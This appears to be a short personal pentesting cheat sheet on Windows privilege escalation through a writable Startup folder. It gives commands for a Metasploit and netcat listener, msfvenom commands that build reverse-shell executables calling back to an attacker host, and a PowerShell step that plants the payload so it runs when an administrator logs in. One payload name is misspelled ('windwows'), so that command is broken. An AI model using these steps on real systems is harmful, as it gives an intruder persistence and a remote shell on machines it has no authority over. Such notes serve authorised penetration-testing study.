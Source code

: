 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Startup Applications|Enum]]
#### Setup Listener
```bash
# metasploit
msfconsole
use multi/handler
set lhost=<attack ip>
set lport=<port num>
run

# reverse shell
nc -nvlp <port> 
```

#### Make payload
```bash
# meterpreter shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<atack ip> LPORT=<port> -f exe -o y.exe

# vanilla reverse
msfvenom -p windwows/x64/reverse_tcp LHOST=<attack ip> LPORT=<port> -f exe -o y.exe
```
[[Dark Arts/File Transfer/Windows|File transfer]] payload to target
#### Exploit
```powershell
# assuming you found that full access to the startup apps folder, just place the malware in the right place
copy y.exe "C:\ProgramData\Microsoft\WIndows\Start Menu\Programs\Startup"

# then just wait for an admin to log in or the computer to restart or whatever for the malware to be automatically run. Should get a shell after that. 
```